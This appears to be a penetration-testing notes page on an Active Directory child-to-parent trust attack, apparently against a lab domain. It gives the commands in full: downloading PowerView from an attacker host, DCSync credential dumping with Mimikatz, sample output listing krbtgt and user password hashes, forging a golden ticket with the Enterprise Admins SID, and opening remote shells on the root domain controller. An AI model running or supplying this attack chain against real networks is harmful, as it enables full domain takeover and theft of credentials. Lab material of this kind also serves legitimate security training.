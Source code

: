 ```yaml
---
title: "Trust Attack"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
---
```


## Trust  Bidirectional

To perform this attack after compromising a child domain, we need the following:

- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain.
- The SID of the Enterprise Admins group of the root domain.
- With this data collected, the attack can be performed with Mimikatz.

- **Trust Relationship** :
```sh
Invoke-WebRequest -Uri "http://10.8.3.12:8080/PowerView.ps1" -OutFile "C:\Users\administrator\Desktop\powerview.ps1"

Import-Module ./PowerView.ps1

Get-NetDomainTrust
```
Or : 
- Powershell Built-in cmdlet :
```powershell
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
```

- The SID for the child domain and parents
```powershell
Get-DomainSID # Child
Get-DomainGroup -Domain trusted.vl -Identity "Enterprise Admins" \| select distinguishedname,objectsid`
```

- Also we can use **Mimikatz** :
```sh
lsadump::trust
```

In order for an attacker to grant themselves Enterprise Admin rights, they can simply add “-519” at the end of the Parent Domain’s Security Identifier (SID). This allows them to trick the system into recognizing their account as a member of the Enterprise Admins group, even though they are not actually part of it.

```sh
Current domain: LAB.TRUSTED.VL (LAB / S-1-5-21-2241985869-2159962460-1278545866)
Domain: TRUSTED.VL (TRUSTED / S-1-5-21-3576695518-347000760-3731839591-519)

```

- The KRBTGT hash for the child domain: using DCSync Attack :

 ```sh
 mimikatz # lsadump::dcsync /all /csv  
 ```
 - Result : 
 ```sh
[DC] 'lab.trusted.vl' will be the domain
[DC] 'labdc.lab.trusted.vl' will be the DC server
[DC] Exporting domain 'lab.trusted.vl'
1104    rsmith  30ef48d2054363df9244bc0d476e93dd        66048
502     krbtgt  c7a03c565c68c6fac5f8913fab576ebd        514
1106    ewalters        56d93bd5a8250652c7430a4467a8540a        66048
500     Administrator   75878369ad33f35b7070ca854100bc07        66048
1107    cpowers 322db798a55f85f09b3d61b976a13c43        66048
1000    LABDC$  c101e5fcd553128d23a62df1c509a576        532480
1103    TRUSTED$        182161c2718e1d45b2202d6e35a7eb6e        2080
```

 - Creating Golden ticket : 
 ```sh
mimikatz # kerberos::golden /user:Administrator /domain:LAB.TRUSTED.VL /sid:S-1-5-21-2241985869-2159962460-1278545866 /krbtgt:c7a03c565c68c6fac5f8913fab576ebd /sids:S-1-5-21-3576695518-347000760-3731839591-519 /ptt
```

- Dump NTDS : 
```SH
lsadump::dcsync /domain:trusted.vl /dc:trusteddc.trusted.vl /all
#Then connect with the hash win evil-winrm
```
or 
Without ptt :
 ```sh
mimikatz # kerberos::golden /user:Administrator /domain:LAB.TRUSTED.VL /sid:S-1-5-21-2241985869-2159962460-1278545866 /krbtgt:c7a03c565c68c6fac5f8913fab576ebd /sids:S-1-5-21-3576695518-347000760-3731839591-519 
```
- Load the ticket to get the shell on root domain trusteddc.trusted.vl

```sh
mimikatz: kerberos::ptt ticket.kirbi
```

```sh
winrs -r:trusteddc.trusted.vl cmd
/
Enter-PSSession trusteddc.trusted.vl
```

Other option:  

Execute a cmd in the remote machine with [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):

```shell
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```